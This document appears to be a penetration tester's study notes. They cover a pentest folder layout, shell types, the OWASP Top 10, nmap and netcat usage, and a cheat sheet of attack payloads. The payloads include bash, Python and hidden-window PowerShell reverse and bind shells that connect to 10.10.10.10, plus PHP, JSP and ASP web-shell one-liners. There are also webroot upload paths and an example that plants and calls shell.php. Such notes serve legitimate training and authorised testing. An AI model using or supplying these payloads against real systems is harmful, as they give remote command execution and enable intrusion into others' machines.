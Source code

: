 Example of Pentest Dir
Projects/
└── Acme Company
    ├── EPT
    │   ├── evidence
    │   │   ├── credentials
    │   │   ├── data
    │   │   └── screenshots
    │   ├── logs
    │   ├── scans
    │   ├── scope
    │   └── tools
    └── IPT
        ├── evidence
        │   ├── credentials
        │   ├── data
        │   └── screenshots
        ├── logs
        ├── scans
        ├── scope
        └── tools

**Shell Type**

**Description**

`Reverse shell`

Initiates a connection back to a "listener" on our attack box.

`Bind shell`

"Binds" to a specific port on the target host and waits for a connection from our attack box.

`Web shell`

Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command.

. The current OWASP Top 10 list is:

Number

Category

Description

1.[Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

Restrictions are not appropriately implemented to prevent users from accessing other users accounts, viewing sensitive data, accessing unauthorized functionality, modifying data, etc.

2.[Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)

Failures related to cryptography which often leads to sensitive data exposure or system compromise.

3.[Injection](https://owasp.org/Top10/A03_2021-Injection/)

User-supplied data is not validated, filtered, or sanitized by the application. Some examples of injections are SQL injection, command injection, LDAP injection, etc.

4.[Insecure Design](https://owasp.org/Top10/A04_2021-Insecure_Design/)

These issues happen when the application is not designed with security in mind.

5.[Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

Missing appropriate security hardening across any part of the application stack, insecure default configurations, open cloud storage, verbose error messages which disclose too much information.

6.[Vulnerable and Outdated Components](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/)

Using components (both client-side and server-side) that are vulnerable, unsupported, or out of date.

7.[Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

Authentication-related attacks that target user's identity, authentication, and session management.

8.[Software and Data Integrity Failures](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)

Software and data integrity failures relate to code and infrastructure that does not protect against integrity violations. An example of this is where an application relies upon plugins, libraries, or modules from untrusted sources, repositories, and content delivery networks (CDNs).

9.[Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)

This category is to help detect, escalate, and respond to active breaches. Without logging and monitoring, breaches cannot be detected..

10.[Server-Side Request Forgery](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).



**Basic Tools**
ssh bob@10.10.10.10
nc 10.10.10.10 22
nc banner grab 
	nc -nv 10.129.42.253 21 
VIM - https://vimsheet.com/
	Command
	`x`
	
	Cut character
	
	`dw`
	
	Cut word
	
	`dd`
	
	Cut full line
	
	`yw`
	
	Copy word
	
	`yy`
	
	Copy full line
	
	`p`
	
	Paste


NMAP

-sC Scripts
-sV Version Scanning
-p- All ports

nmap -sV -sC -p- 10.129.42.253
`nmap -sV --script=banner -p21 10.10.10.0/24`.
nmap --script smb-os-discovery.nse -p445 10.10.10.40


smbclient -N -L \\\\10.129.42.253

Looking for vulns 
searchsploit openssh 7.2
msf console> search exploit eternalblue

Catch a rev shell - nc -lvnp 1234
	Rev shells - bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
	Rev shells  bash - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
	Rev Shell - Powershell - powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
Bind Shell
	bash - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
	python - python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
	powershell - powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

upgrady tty - wpython -c 'import pty; pty.spawn("/bin/bash")'

Fix term size - echo $TERM && stty size
	export TERM=xterm-256color
	stty rows 67 columns 318

Web Shell
	php - <?php system($_REQUEST["cmd"]); ?>
	jsp - <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
	asp - <% eval request("cmd") %>
Upload Locations
	`Apache`
	/var/www/html/
	`Nginx`
	/usr/local/nginx/html/
	`IIS`
	c:\inetpub\wwwroot\
	`XAMPP`
	C:\xampp\htdocs\
Example
	echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
	http://SERVER_IP:PORT/shell.php?cmd=id
	curl http://SERVER_IP:PORT/shell.php?cmd=id

